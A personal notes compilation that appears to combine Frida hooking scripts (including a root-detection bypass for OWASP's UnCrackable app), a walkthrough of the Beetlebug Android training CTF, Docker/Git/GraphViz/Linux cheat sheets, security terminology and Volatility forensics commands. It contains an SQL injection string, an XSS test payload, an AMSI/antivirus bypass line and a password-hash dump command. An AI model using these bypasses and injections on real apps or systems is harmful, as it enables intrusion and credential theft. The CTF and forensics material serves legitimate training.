// Failed to used this methods: which ones we are overridern
// BasicTypes.multiply.implementation = function (val1, val2) {
// console.log("it works");
// return val1 * val2;
//}
BasicTypes.multiply.overload('int','int').implementation = function (val1, val2) {
return val1 * val2;
}
Trace class
List all overwritten methods and get count
function traceClass(targetClass) {
var hook;
try {
hook = Java.use(targetClass);
} catch (e) {
console.error("trace class failed", e);
return;
}
var methods = hook.class.getDeclaredMethods();
hook.$dispose();
var parsedMethods = [];
methods.forEach(function (method) {
var methodStr = method.toString();
var methodReplace = methodStr.replace(targetClass + ".", "TOKEN").match(/\sTOKEN(.*)\(/)[1];
parsedMethods.push(methodReplace);
});
uniqBy(parsedMethods, JSON.stringify).forEach(function (targetMethod) {
traceMethod(targetClass + '.' + targetMethod);
});
}
function traceMethod(targetClassMethod) {
var delim = targetClassMethod.lastIndexOf('.');
if (delim === -1)
return;
var targetClass = targetClassMethod.slice(0, delim);
var targetMethod = targetClassMethod.slice(delim + 1, targetClassMethod.length);
var hook = Java.use(targetClass);
var overloadCount = hook[targetMethod].overloads.length;
console.log(targetClassMethod + " (overloadCount: " + overloadCount + ")");
}
// remove duplicates from array
function uniqBy(array, key) {
var seen = {};
return array.filter(function (item) {
var k = key(item);
return seen.hasOwnProperty(k) ? false : (seen[k] = true);
});
}
- Usage
traceClass("java.lang.String");
List overwritten methods
function listOverritenMethods(className, func) {
var Class = Java.use(className);
var overloadedMethods = Class[func].overloads;
for (var i in overloadedMethods) {
console.log(overloadedMethods[i]);
}
}
- Usage
listOverritenMethods("java.lang.String", "getBytes");
Function substitution
- Code that detect 'root'
protected void onCreate(Bundle paramBundle)
{
if (sg.vantagepoint.a.c.c()) {
a("Root detected!");
}
...
- Frida Script
Java.perform(function () {
let theClass = Java.use("sg.vantagepoint.a.c");
theClass.a.implementation = function(v) {
console.log("In function A");
return false
}
})
or
Java.perform(function () {
let MainActivity = Java.use("sg.vantagepoint.uncrackable.MainActivity");
MainActivity.a.overload('java.lang.String').implementation = function (str) {
console.log(`MainActivity.a is called: str=${str}`);
};
})
Decode bytes to string
// Helper function to decode byte[] to String
function arrToStr(byteArr) {
var tmp = "";
for (var k = 0; k < byteArr.length; k++) {
tmp += String.fromCharCode(byteArr[k]);
}
return tmp;
}
Exported, imported and symbols from module
- Lists all names (exports, imports and symbols) in the given module. If a 'needle' is given this function returns the address of the name that matches the 'needle'
function listNames(module, needle) {
var address = undefined;
Process.enumerateModules()
.filter(function (m) { return m["path"].toLowerCase().indexOf(module) != -1; })
.forEach(function (mod) {
mod.enumerateExports().forEach(function (entry) {
console.log("Export: " + entry.name);
if (entry.name.indexOf(needle) != -1) address = entry.address;
});
mod.enumerateImports().forEach(function (entry) {
console.log("Import: " + entry.name);
if (entry.name.indexOf(needle) != -1) address = entry.address;
});
mod.enumerateSymbols().forEach(function (entry) {
console.log("symbol name: " + entry.name);
if (entry.name.indexOf(needle) != -1) address = entry.address;
});
});
console.log("");
return address;
}
Hook function in library
- An
libfoo.sousestrncmpfunction.
function listNames(module, needle) {
var address = undefined;
Process.enumerateModules()
.filter(function (m) { return m["path"].toLowerCase().indexOf(module) != -1; })
.forEach(function (mod) {
mod.enumerateExports().forEach(function (entry) {
if (entry.name.indexOf(needle) != -1) address = entry.address;
});
mod.enumerateImports().forEach(function (entry) {
if (entry.name.indexOf(needle) != -1) address = entry.address;
});
mod.enumerateSymbols().forEach(function (entry) {
if (entry.name.indexOf(needle) != -1) address = entry.address;
});
});
return address;
}
function attachToStrncmp(strncmpAddress, compareTo) {
Interceptor.attach(strncmpAddress, {
onEnter: function (args) {
var len = compareTo.length;
if (args[2].toInt32() != len) {return;}
var str1 = args[0].readUtf8String(len)
var str2 = args[1].readUtf8String(len)
if (str1 == compareTo || str2 == compareTo) {
console.log("strncmp(" + str1 + ", " + str2 + ", " + len + ") called");
}
},
});
}
Java.perform(function () {
Java.use("<MODULE>.MainActivity").onResume.implementation = function () {
this.onResume();
// Hook to strncmp and look for any calls to it with the magic word as argument
var watchDog = <STRING_UNIQUE_2_DISTNGUISHED_CALL>;
var strncmp_addr = listNames('libfoo.so', 'strncmp')
attachToStrncmp(strncmp_addr, theMagicWord);
// Find the CodeCheck instance that was created by the app in onCreate()
// Then call it with the magic word as argument.
Java.choose("CLASS_MODULE", {
onMatch: function (instance) {
instance.<FCT_IN_CLASS>(
Java.use("java.lang.String").$new(watchDog)
);
return "stop"; // return 'stop'
},
onComplete: function () { }
});
// We've got what we wanted, detach again to prevent multiple attachments
// to strncmp if onResume is called multiple times.
Interceptor.detachAll();
}
})
Other Snippet
Frida Tutorials
hacktricks
Android Hacking with FRIDA
Ref
UnCrackable Mobile Apps
These are the UnCrackable Apps for Android and iOS, a collection of mobile reverse engineering challenges. These challenges are used as examples throughout the OWASP MASTG. Of course, you can also solve them for fun.
See https://mas.owasp.org/crackmes for more information.
▛▀▖ ▐ ▜ ▛▀▖
▙▄▘▞▀▖▞▀▖▜▀ ▐ ▞▀▖▙▄▘▌ ▌▞▀▌
▌ ▌▛▀ ▛▀ ▐ ▖▐ ▛▀ ▌ ▌▌ ▌▚▄▌
▀▀ ▝▀▘▝▀▘ ▀ ▘▝▀▘▀▀ ▝▀▘▗▄▘
Training APK. Contains multilevel training.
Hardcoded Secrets
Flag 1 - Hardcoding Sensitive Data
Goal: To unlock secret folder => Find strings
Use ApkLab to open apk files. Activate options:
- decompile Java
- Find "Enter PIN" => res/layout/activity_embedded_secret_strings.xml
- Ref a resource "editTextSecretPin". looking for
findViewById(*editTextSecretPin*) =>java_src/app/beetlebug/ctf/EmbeddedSecretStrings.java`
- Ref a resource "editTextSecretPin". looking for
embeddedSecretStrings.pin = (EditText) embeddedSecretStrings.findViewById(C0670R.C0673id.editTextSecretPin);
String s1 = EmbeddedSecretStrings.this.pin.getText().toString();
if (s1.equals(EmbeddedSecretStrings.this.getString(C0670R.string.V98bFQrpGkDJ))) {
SharedPreferences.Editor editor = EmbeddedSecretStrings.this.sharedPreferences.edit();
editor.putFloat("ctf_score_secret_string", 6.25f);
Looking for string.V98bFQrpGkDJ into resource file string.xml => res/values/strings.xml
<string name="V98bFQrpGkDJ">7432580</string>
Flag 2 - Hardcoding Secrets
Looking for Enter Promo mode
=> res/layout/activity_embedded_secret_source_code.xml
...
public String beetle_bug_shop_promo_code = "beetle1759";
...
EmbeddedSecretSourceCode embeddedSecretSourceCode = EmbeddedSecretSourceCode.this;
embeddedSecretSourceCode.m_price = (TextView) embeddedSecretSourceCode.findViewById(C0670R.C0673id.textViewPrice);
if (EmbeddedSecretSourceCode.this.m_promo.getText().toString().equals(EmbeddedSecretSourceCode.this.beetle_bug_shop_promo_code)) {
Data Storage
Flag 3 - Shared Preferences
$ adb shell
$# cd /data/data/app.beetlebug/shared_prefs/
$# ls -liash
$# ls
flag_scores.xml # Current Flag value
preferences.xml #
shared_pref_flag.xml
user_info.xml
walkthrough.xml
$# cat preferences.xml
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
<string name="5_sqlite">MHgxMTcyYzA0</string>
<string name="11_firebase">MHgzMzY1QTEw</string>
<string name="13_xss">MHg2NnI5MjE0</string>
<string name="4_ext_store">MHgzOTgyYyU0</string>
<string name="8_service">MHgyMjIxMDNB</string>
<string name="7_content">MHg3MzM0MjFN</string>
<string name="9_log">MHg1NTU0MWQz</string>
<string name="16_patch">MHgzM2U5JGU=</string>
<string name="10_sqli">MHg5MTMzNFox</string>
<string name="15_fingerprint">MHg0M0oxMjMm</string>
<string name="6_activity">MHgzMzRmMjIx</string>
<string name="3_pref">MHgxNDQyYzA0</string>
<string name="12_url">MHgzM2YzMzQx</string>
<string name="14_clip">MHgxMTMyYzQh</string>
</map>
$# cat shared_pref_flag.xml
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
<string name="password"> <string name="flag">0x32f6641</string> </string>
<string name="flag 3">0x1442c04</string>
<string name="username">test</string>
</map>
$# # cat user_info.xml
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
<boolean name="is_logged_in" value="true" />
<string name="flag">0x32f6641</string>
<string name="user_token">ca9eada3-d132-46d3-8c43-333f3890f6eb</string>
<string name="user">test</string>
</map>
Pour shared_pref
<string name="flag">0x32f6641</string> => <string name="flag">0x32f6641</string>
But we had to find "Enter Flags'
- Find activity for
Shared PReferences=>res/layout/activity_insecure_storage_sharedpref.xml - Rechercher
setContentView(C0670R.layout.activity_insecure_storage_sharedpref);=>java_src/app/beetlebug/ctf/InsecureStorageSharedPref.java
There are a code String pref_result = this.preferences.getString("3_pref", ""); => Ref. dans preferences.xml
<string name="3_pref">MHgxNDQyYzA0</string>
from base64 import b64decode;print(b64decode("MHgxNDQyYzA0").decode('utf8'))
=> 0x1442c04
Flag 4 - External Storage
When register new user, a new file will be create:
/storage/emulated/0/Documents
$ cat /storage/emulated/0/Documents/user.txt
Pass: 1234
Email: johndoe@antispam.com
flag : 0x3982c%4
Flag string reference 4_ext_store
<string name="4_ext_store">MHgzOTgyYyU0</string>
from base64 import b64decode;print(b64decode("MHgzOTgyYyU0").decode('utf8'))
0x3982c%4
Flag 5 - Sqlite Database
Looking for database
/data/data/app.beetlebug/databases
user.db => 1 qwer1234!@#$SDFSDF 0x1172c04
Flag => 0x1172c04.
WebViews
Flag 6 - Load Arbitrary URL
- Get info with
objection
$ objection app.beetlebug explore
$ env
$ android hooking get current_activity
Activity: app.beetlebug.ctf.WebViewURLActivity
- Launch activity with parameters
$ adb shell am start -n app.beetlebug/.ctf.WebViewURLActivity --es reg_url "file:///android_asset/pwn.html"
# same as
$ adb shell am start -n app.beetlebug/app.beetlebug.ctf.WebViewURLActivity --es reg_url "file:///android_asset/pwn.html"
NOTE
Classic command:
adb shell am start -n <PACKAGE_NAME/ACTIVITY_CLASS> [EXTRA_DATA]
Here are the available activities:
$ [Objection] android hooking list activities
app.beetlebug.FlagsOverview
app.beetlebug.MainActivity
app.beetlebug.MainActivity$1
app.beetlebug.Walkthrough
app.beetlebug.adapter.SlideViewPagerAdapter
app.beetlebug.adapter.SlideViewPagerAdapter$1
app.beetlebug.adapter.SlideViewPagerAdapter$2
app.beetlebug.ctf.BinaryPatchActivity
app.beetlebug.ctf.WebViewURLActivity
app.beetlebug.ctf.WebViewXSSActivity
app.beetlebug.handlers.VulnerableContentProvider
app.beetlebug.handlers.VulnerableContentProvider$DatabaseHelper
app.beetlebug.home.AndroidComponentsHome
app.beetlebug.home.BiometricFragmentHome
app.beetlebug.home.DatabaseFragmentHome
app.beetlebug.home.InsecureStorageFragmentHome
app.beetlebug.home.SecretsFragmentHome
app.beetlebug.home.SensitiveDataFragmentHome
app.beetlebug.home.WebViewFragmentHome
app.beetlebug.home.WebViewFragmentHome$1
app.beetlebug.home.WebViewFragmentHome$2
app.beetlebug.home.WebViewFragmentHome$3
app.beetlebug.user.PlayerStats
app.beetlebug.user.UserSignUp
The app name is app.beetlebug, the rest is the activities name:
.FlagsOverview
.MainActivity
.MainActivity$1
.Walkthrough
.adapter.SlideViewPagerAdapter
.adapter.SlideViewPagerAdapter$1
.adapter.SlideViewPagerAdapter$2
.ctf.BinaryPatchActivity
.ctf.WebViewURLActivity
.ctf.WebViewXSSActivity
.handlers.VulnerableContentProvider
.handlers.VulnerableContentProvider$DatabaseHelper
.home.AndroidComponentsHome
.home.BiometricFragmentHome
.home.DatabaseFragmentHome
.home.InsecureStorageFragmentHome
.home.SecretsFragmentHome
.home.SensitiveDataFragmentHome
.home.WebViewFragmentHome
.home.WebViewFragmentHome$1
.home.WebViewFragmentHome$2
.home.WebViewFragmentHome$3
.user.PlayerStats
.user.UserSignUp
NOTE adb shell am start -n app.beetlebug/app.beetlebug.ctf.WebViewURLActivity --es reg_url "file:///android_asset/pwn.html" cannot be display. Into decompiled APK, assets/pwn.html, there are assets/pwn.png
=> adb shell am start -n app.beetlebug/app.beetlebug.ctf.WebViewURLActivity --es reg_url "file:///android_asset/pwn.png
=> 0x33f3341
Flag 7 - JavaScript Code Injection (XSS)
Write into payload the classic
<script>alert("Hello Worlds")</script>
The flag appears behind the send 0x66r9214
Flag 8 - SQL Injection
Try to execute SqlInjection.
The request is something like, to check user:
SELECT * FROM users WHERE username='<NAME>';
If we try the following name ' or 1=1; -- :
SELECT * FROM users WHERE username='' or 1=1; -- ';
=>
User: (admin) pass: (passwd123) Credit Card: (1234567812345678)
User: (beetle-bug) pass: (flg) Credit Card: (0x91334Z1)
Flag => 0x91334Z1
Flag 9 - Firebase Database Misconfiguration
█▀▀▀▀██▄ ██▀▀▀ ▀▀ ██
██▄████ ██ ███████ ██▄████ ████ ▄███▄██ ▄█████▄
██▀ ▄█▀ ██ ██▀ ██ ██▀ ▀██ ▀ ▄▄▄██
██ ▄█▀ ██ ██ ██ ██ ██ ▄██▀▀▀██
██ ▄██▄▄▄▄▄ ██ ██ ▄▄▄██▄▄▄ ▀██▄▄███ ██▄▄▄███
▀▀ ▀▀▀▀▀▀▀▀ ▀▀ ▀▀ ▀▀▀▀▀▀▀▀ ▀▀▀ ▀▀ ▀▀▀▀ ▀▀
- https://github.com/enovella/r2frida-wiki/blob/master/README.md
- https://github.com/nowsecure/r2frida
- https://r2wiki.readthedocs.io/en/latest/options/a/af/
Gnirehtet (tethering)
Usage
- Install
cd /tmp
wget "https://github.com/Genymobile/gnirehtet/releases/download/v2.3/gnirehtet-rust-linux64-v2.3.zip"
unzip ./gnirehtet-rust-linux64-v2.3.zip
cd gnirehtet-rust-linux64
./gnirehtet install
- Run
$ ./gnirehtet run
Ref.
-
Introducing “gnirehtet”, a reverse tethering tool for Android
-
Gnirehtet 2: our reverse tethering tool for Android now available in Rust
Docker
docker images # list images
docker pull <img:tag> # pull a certain image
docker run -it <img:tag> <command> # run a command in a new container (interactively)
docker ps -as # list all containers
docker exec -it <container-id> <command> # run a command in a running container
docker container prune # delete all containers
docker inspect <container-id> # show low-level info on a container
docker commit <container-id> <repository:tag> # create a new image from container changes
# Networks managing: None, Host, Bridge (default)
docker network create --driver <driver> --subnet x.x.x.x/x --gateway x.x.x.x <network-name> # create a new network
docker network connect <network-name> <container-id> [--ip x.x.x.x] # connect a container to a network (and changing the default ip)
docker rmi $(docker images|grep none|awk '{ print $3 }') # remove docker images with tag or name at none
Docker volumes
flowchart TB A[Container]--bind out -->B subgraph B[Filesystem] D[ContainerData] end A--volume -->D A--tmpfs mount -->C[Memory]
docker volume create <volume-name> # create a volume
docker inspect <volume-name> # to get the mount point on the host
docker run -itd --mount src=<volume-name>,target=/some/path --name <container-name-to-create> --rm <image-name> # mount a volume on the container
Manage image size
docker image history <image-name> -notrunc # know the size and layers of an image
Multi-stage Build: allows to reduce the final size of a docker image by performing some operations before creating the final image (e.g. compiling the source code)
Choose your base image:
- alpine
- debian
- scratch
- busybox:glibc (useful if the program is dynamic)
C_GO_ENABLED=0: Go doesn't use system libraries anymore but its own implementations so it becomes static (net and dns for example)
Alpine uses musl but there is the possibility to install build-base
The others use glibc. The 2 are not compatible (i.e. compiling on glibc and running on alpine will not work)
Docker Forensic
-
Dive: exploring image, layer, contents
-
LiME: Linux Memory Extractor
Docker-compose
docker-compose up --build -d # run, build and keep detach
docker-compose stop/down
To get further
- Kubernetes
- Skaffold
- Kustomize
Dockerfile
Multi-stage build
Get a minimalist container simply running a binary. This helps keep the running docker container small while still be able to compile a project needing a lot of dependencies.
# Step 1
FROM golang:alpine3.7 as build-env # Create an alias
COPY main.go /hello/main.go
WORKDIR /hello
RUN env GOOS=linux GOARCH=amd64 go build
# Step 2
FROM scratch
COPY --from=build-env /hello/hello /bin/hello # copy the compiled file from the build-env image
ENTRYPOINT ["/bin/hello"]
docker build -t hello-scratch:v1 . # build your image with the Dockerfile in the current directory
docker images # check you have your newly created image
docker run hello-scratch:v1 # run your image
Official documentation for the multi-stage
Git
- Cancel last local commit
git reset HEAD~1
-Remove a file from the index without deleting it
git reset HEAD <filename> # does not delete the file but removes it from the index
- Create new branch
git branch <branchName> # locally
# upstream branch
git branch --set-upstream-to=origin/<branchName>
git push -u origin <branchName>
- Merge some commits together
git rebase -i HEAD~X
# X = number of commits to merge
# 1. make your modification
# 2. if commits were already pushed: git push --force
# 3. else: git push
- Unstagged files and change active branch
git stash push -m "message"
git stash list
git checkout <another branch>
git stash pop
- Delete file from git history
git filter-branch --index-filter "git rm -rf --cached --ignore-unmatch <path-to-file>" HEAD
git push -all --force
- Find file in git history
git log --all --full-history -- <path-to-file>
- Apply commits on another branch
git cherry-pick <commit-hash>
- Add & push tags
git tag <tag-name>
git push --tags
- Use GIT with a GUI
gitk --all
GraphViz
- File to PNG
dot </path/tp/file/dot> -Tpng -o output.png
Reference
- Sketchviz - Graphviz Examples
- Sketchviz - Guide to Flowcharts in Graphviz
- GraphViz Pocket Reference
- Drawing graphs with dot (pdf)
GraphViz
Simple command
- With
graphivizpython module
import graphviz
dot_data = """
// The Round Table
digraph {
A [label="King Arthur"]
B [label="Sir Bedevere the Wise"]
L [label="Sir Lancelot the Brave"]
A -> B
A -> L
B -> L [constraint=false]
}
"""
graph = graphviz.Source(dot_data)
graph

- With command line
!dot -Tpng ./assets/source.dot -o ./assets/source.png
Some examples
Basic
- graph
No direction
graph {
hello -- world;
}

- digraph
oriented graph
graph {
hello -> world;
}

- digraph oriented AND edge in color
digraph {
rankdir=LR;
hello [ label = "Hello" ];
hello -> world [ color="orange", penwidth=3.0 ];
}
- digraph with font
digraph {
Tinos [ fontname="Tinos" ];
Handlee [ fontname="Handlee" ];
"Sedgwick Ave" [ fontname="Sedgwick Ave" ];
"*also Sedgwick*";
}
- digraph custom edge
digraph {
node [ shape=square ];
edge [ style=dashed ];
see -> think -> do;
}

Simple Graph
graph {
a -- b;
b -- c;
c -- d;
d -- e;
e -- f;
a -- f;
a -- c;
a -- d;
a -- e;
b -- d;
b -- e;
b -- f;
c -- e;
c -- f;
d -- f;
}

Full digraph
import graphviz
dot_data = """
digraph {
a -> b[label="0.2",weight="0.2"];
a -> c[label="0.4",weight="0.4"];
c -> b[label="0.6",weight="0.6"];
c -> e[label="0.6",weight="0.6"];
e -> e[label="0.1",weight="0.1"];
e -> b[label="0.7",weight="0.7"];
}
"""
graphviz.Source(dot_data)

Showing A path
import graphviz
dot_data = """
graph {
a -- b[color=red,penwidth=3.0];
b -- c;
c -- d[color=red,penwidth=3.0];
d -- e;
e -- f;
a -- d;
b -- d[color=red,penwidth=3.0];
c -- f[color=red,penwidth=3.0];
}
"""
graphviz.Source(dot_data)

Subgraph
import graphviz
dot_data = """
digraph {
subgraph cluster_0 {
label="Subgraph A";
a -> b;
b -> c;
c -> d;
}
subgraph cluster_1 {
label="Subgraph B";
a -> f;
f -> c;
}
}
"""
graphviz.Source(dot_data)
Complex digraph
import graphviz
dot_data = """
digraph G {
size ="4,4";
main [shape=box]; /* this is a comment */
main -> parse [weight=8];
parse -> execute;
main -> init [style=dotted];
main -> cleanup;
execute -> { make_string; printf}
init -> make_string;
edge [color=red]; // so is this
main -> printf [style=bold,label="100 times"];
make_string [label="make a\nstring"];
node [shape=box,style=filled,color=".7 .3 1.0"];
execute -> compare;
}
"""
graphviz.Source(dot_data)

Complex label
digraph G {
a -> b -> c;
b -> d;
a [shape=polygon,sides=5,peripheries=3,color=lightblue,style=filled];
c [shape=polygon,sides=4,skew=.4,label="hello world"]
d [shape=invtriangle];
e [shape=polygon,sides=4,distortion=.7];
}

Advanced Graphs
Edge connection
Use <angle-brackets> to connect edge
digraph {
rankdir=LR;
node [ shape=record ];
struct1 [
label = "a|b|<port1>c";
];
struct2 [
label = "a|{<port2>b1|b2}|c";
];
struct1:port1 -> struct2:port2 [ label="xyz" ];
}

Clusters (or subgraph)
You can group related nodes by putting them in a subgraph whose name begins with cluster_.
digraph {
node [ fontname="Handlee" ];
subgraph cluster_frontend {
label="*Frontend*";
React;
Bootstrap;
}
subgraph cluster_backend {
label="*Backend*";
expressjs;
"aws-sdk";
}
React -> expressjs;
expressjs -> "aws-sdk";
}

Some linux command
Use Stream EDitor (SED)
Find and replace text within a file using sed command
sed -i 's/old-text/new-text/g' input.txt
-ito update file passsis the substitute command of sed for find and replacegmeans global replace i.e. find all occurrences
sed -i 's/foo/bar/gI' input.txt
Ito match all cases of foo (foo, FOO, Foo, FoO) add I (capitalized I) option
Install Oh My zsh
Convert Oh My Zsh – guide complet : installation rapide sous Linux
Bash tips
touch file into sub unexisting folder
$ file="./nested/folder/deep/more.txt"
$ mkdir -p "${file%/*}" && touch "$file"
Where
$ file="./nested/folder/deep/more.txt"
$ echo "${file%/*}" # dirname ${file}
./nested/folder/deep
$ echo "$file"
Possible function:
$ mktouch() {mkdir -p $(dirname $1) && touch $1;}
Linux
- Root console
sudo -s
- IP address
ip a
- Route
ip r
- History des commande
history !<history_id>
- Process
ps -ef ps -faux
- Process sort by mem
ps -faux --sort %mem
- App setup
apt list
- App available
apt-cache search nessus
- List des repo
sudo nano /etc/apt/sources.list
- Server HTTP de partage
python2.7 -m SimpleHTTPServer 8080 python3 -m http.server 8080
- Shared data
qr http://0.0.0.0:8080/
- Afficher/Comparer les fichiers
| commande | action |
|---|---|
wc fichier | compte le nombre de lignes, de mots, d'octets de fichier |
cat fichiers | concatène les fichiers |
more fichier | affiche fichier page après page 'Espace'=page suivante, 'Entrée'=ligne suivante, 'u'=remonter |
less fichier | affiche fichier avec une navigation au clavier |
head -n x fichier | affiche les x premières lignes de fichier |
tail -n x fichier | affiche les x dernières lignes de fichier |
tail -f fichier | affiche la dernière ligne de fichier en temps réel |
diff file1 file2 | affiche les différences entre deux fichiers texte |
diff -u file1 file2 | affiche les différences au format patch |
comp file1 file2 | compare deux fichiers binaires |
comp file1 file2 n N | compare deux fichiers, file1 à partir du nième octet, et file2 à partir du Nième |
- Réseau
| commande | action |
|---|---|
hostname | affiche le nom d'hôte de la machine |
ping 'machine' | envoie un ping à une 'machine' |
traceroute 'machine' | fait un traceroute vers 'machine' |
netstat | liste les processus utilisant le réseau |
netstat -a | netstat + affichage des processus serveurs |
lsof | liste détaillée de l'usage des fichiers et du réseau |
ifconfig | affiche la config des interfaces réseaux |
ifconfig interface IP masque | configure une interface réseau |
route | affiche la table de routage |
curl ifconfig.me | IP publique |
- Recherche
| commande/option | action |
|---|---|
locate motif | recherche sur un nom correspond au motif |
updatedb | mettre à jour la base de données de locate |
find chemin options | recherche les fichiers dans chemin avec option |
find -name motif | recherche sur le nom du fichier |
find -type f/d/l | recherche par type où f=fichier,d=répertoire,l=lien |
find -exec cmd | exécute la commande cmd à tous les fichiers trouvés |
Exemple : trouver toutes les images avec l'extension png dans le dossier 'Images' de l'utilisateur et les copier dans le dossier tmp ( '{}' représente les fichiers trouvés).
find $HOME/Images -name "*.png" -exec cp {} $HOME/tmp/ ;
- Kernel
Version du noyau Linux utilisé, son nom, la version du compilateur utilisé :
# System info
$ cat /proc/version
# Version du kernel
$ uname -r
# liste les noyaux installés sur votre machine
$ dpkg -l | egrep "linux-(header|image)"
Windows
- Carte reseau
ncpa.cpl
- Gestion des users (Local User Manager)
lusrmgr.msc
- Certificat manager
certmgr.msc
- Gestionnaire de FireWall
WF.msc
- Gestionnaire de la sourie
main.cpl
- Gestionnaire des taches
tasklist.exe (console) taskmgr.exe (GUI)
- Applications
appwiz.cpl
- List des IP
ipconfig
- Bypass AV
#bypass ASMI powershell -ep bypass
-
History => Press F7
-
Screen catpure
Win+Shift+s
▄▄
██
████████ ▄▄█████▄ ██▄████▄
▄█▀ ██▄▄▄▄ ▀ ██▀ ██
▄█▀ ▀▀▀▀██▄ ██ ██
▄██▄▄▄▄▄ █▄▄▄▄▄██ ██ ██
▀▀▀▀▀▀▀▀ ▀▀▀▀▀▀ ▀▀ ▀▀
My default configuration
# ZSH THEME
ZSH_THEME="spaceship"
# Plugins
plugins=(git z colorize colored-man-pages jump zsh-syntax-highlighting rust)
# Open Banner
neofetch
Forensics (IN)
Pseuso OTX (Platform de partage d'IOC)
| Site | Editor | Description |
|---|---|---|
| Cybermap Kaspersky | Kaspersky | Bien mais plus vitrine |
| Thread Cloud | CheckPoint | Real Time |
| Thread Live Map FireEye | CheckPoint | Best one |
Command shortcut (Win + R)
| Command | Panel |
|---|---|
apwiz.cpl | application desintaller |
ncpa.cpl | panel network |
Nomenclatures
| Nom. | definition | Explication |
|---|---|---|
NIST/NVD | National Institute of Standard and Technology National Vulnerability Database | Consortium Americain d'analyze des vul. regroupées dans une BD : NVD |
| MITRE ATT&CK | Adverse Tactics, Technic and Common Knowledge | Consortium International qui rescensent, documente et classifie les tactiques et les techniques d'attaque. |
| CVE | Common Vulnerability and Exposures | Referencement d'une vulnerabilité. |
| CWE | Common Weakness Enumeration | Ensemble des mauvaise pratique de codage,engendrant des vuln. Elles sont identifiées et indéxées. Stocké et maintenu par le MITRE. (Existance d'un TOP 25) |
| Zero Day | Faille Inconnue du grand Public | |
| CPE | Common Platform Enumeration | Recensement d'un SI. |
| Exploit | Code ecrit pour une faille dites. | |
| Vulnerability Assessment | Rescencement des vul. d'un SI grâce aux CPE | |
| CVSS | Common Vulnerability Score System | Metrique permettant d'evaluer les vuknerabilitées |
| OSINT | Open-Source INterligent | Ensemble des informations disponibles librement. |
| OTX | Open | Threat eXchange |
| IOC | Indice Of Compromission | Elements caracterisant une vul (nom...) |
| ATP | Advanced Persistant Threat | Modèle d'attaque. |
| ATP | Group de hacker. | |
| IPS | Intrusion Protection System | Actives detections (ex: IOC, OTX, YARA...), tente d'arreter les attaques. AlienVault est un IDS. |
| IDS | Intrusion Detection System | Detection sans actions, pure detection et remonté de LOG. |
| FWNG | ||
| NIDS | Network Intrusion Protection System | System de detection des intrusion d'un réseau internet |
| HIDS | Host Intrusion Protection System | Detection sur LE système hôte |
| WHIDS | Wireless Intrusion Protection System | Detection des communication sans fils (ex: Chellam Wifi) |
| MTA | Mail Transfert Agent | Un Mail Transfer Agent est un logiciel pour serveur de transmission de courriers électroniques. |
| NSE | Nmap Script Engine | module d'attaque expoitant nmap |
| BPF | Berklet Paquet Filtering | Filtrage des interface network |
MITRE ATT&CK
A partir de la Matrice ATT&CK, il est facile d'y extraire une liste des attaques contre lesquels il faut se premunir.
Via D3fend, on peut extraire les TTP (Tactic and Technic of Protection).
Ensuite, on edite des regles plus specifique (IDS, IPS....) via Sigma???
- Horizontalement, nous avons les
ATP, laKill Chain - Chaque colonne represente une
Ttactic - chaque item dans une colonne sont les
Technic
CVE
Information possible:
- Ref : Annee
- Explication : ROP, Buffer Over Flow...
- Impact : Win7, Win Server 2010
- CVSS : Score
- Patch : si disponible
- Exploitation : POC (Proof Of Concept) ou POW (Proof Of Work) ou lien.
X-dat
0-day=> Inconnue du publique0.5-day=> Connue des milliueu fermé (Mafia, HAcker, Etat)1-day=> Connue et en cours de correction (aucun correctif dispo)
CWE
Tout est dans le fonctionnelle et non dans l'exploitation.
CPE
Recensement de toutes les technologies, état d'un SI:
- Logiciel
- Materiel
- OS (MMVV)
- Matrices de flux
- Hiérarchie des resonsabilité des users (admin, guest...)
AGDLP (Account, Global, Domain Local, Permission) - Politique des gestions des groupes ou politiques de sécurité
Technologie ROP (Restriction O P) => Définition des responsabilités par users
Scoring CVSS
Version < 3, 3 criteres/métrique :
- Exploitation
- Reproductabilité
- Moyen de pouvoir l'appliquer sur notre system/ elements à defendre.
spear phishing/phishing
spear phishing = phishing ciblé phishing = phishing aui ratisse large.
OSINT/SOCMINT and nerd
Via l'OSINT et le SOCINT, des groupes oeuvres pour le police : NERD
Malware
Terme generic designant un logiciel malveillant.
Virus: est un type spécifique de malware qui se réplique automatiquement dans le système informatique.Ransomware: En français rançongiciel, c’est un malware qui chiffres vos données (verrouille les accès à vos données).Trojan: En français cheval de Troie est conçu pour apparaître comme un logiciel tout à fait normal, mais peut accéder à votre système.Keylogger: Un logiciel ou matériel malveillant qui peut suivre presque tout ce que vous faites sur votre ordinateur.Rootkit: c’est un logiciel malveillant capable d’obtenir un accès de niveau administrateur votre système.Botnets: pour « robot network » et en français « réseau de robots », ce sont des réseaux d’ordinateurs infectés et sous le contrôle des criminels utilisant des serveurs de contrôle(C&C).Worm: « ver » en français, peut s’autorépliquer sans un contrôleur et se propage généralement sur un réseau informatique sans aucune interaction de la part des auteurs du malware.Spyware: c’est un logiciel espion capable de collecter vos informations et vos données depuis votre ordinateur.
Site ou reference
| Name (URL) | Description |
|---|---|
| ZERODIUM | Recencement des Vuls. |
| M-Trend | Rapport bi-mensuel de FireEye et Mandiant |
| Atomic Red Team | Framework de test FireEye |
| gentilkiwi | Site du red hat Benjamin DELPY (mimikatz) |
Volatility 3 Commands
Running Volatility 3 in console windows
- Check version.
$ python vol.py -v
- Get image information.
$ python vol.py -f [ImageName] windows.info
- See process list.
$ python vol.py -f [ImageName] windows.pslist | more
- Filter process list searching for keyword “chrome”
$ python vol.py -f [ImageName] windows.pslist | Select-String chrome
- Find all handles open by process 1328.
$ python vol.py -f [ImageName] windows.handles --pid 1328
- Find file handles and filter by - type.
$ python vol.py -f [ImageName] windows.handles --pid 1328 | Select-String File | more
$ python vol.py -f [ImageName] windows.handles --pid 1328 | Select-String File | Select-String history | more
- Dump a file from process 1328 at virtual address.
$ python vol.py -f [ImageName] -o "dump" windows.dumpfile --pid 1328 --virtaddr 0xbf0f6abe9740
- Dump all files associated with PID 2520.
$ python vol.py -f [ImageName] windows.dumpfiles.DumpFiles --pid 2520
- See executed programs with command option history.
$ python vol.py -f [ImageName] windows.cmdline.CmdLine
- See active network connections and listening programs.
$ python vol.py -f [ImageName] windows.netstat
- Dump the Windows user password hashes.
$ python vol.py -f [ImageName] windows.hashdump.Hashdump
- Print out the Windows Registry UserAssist.
$ python vol.py -f [ImageName] windows.registry.userassist.UserAssist
- List all available Windows Registry hives in memory.
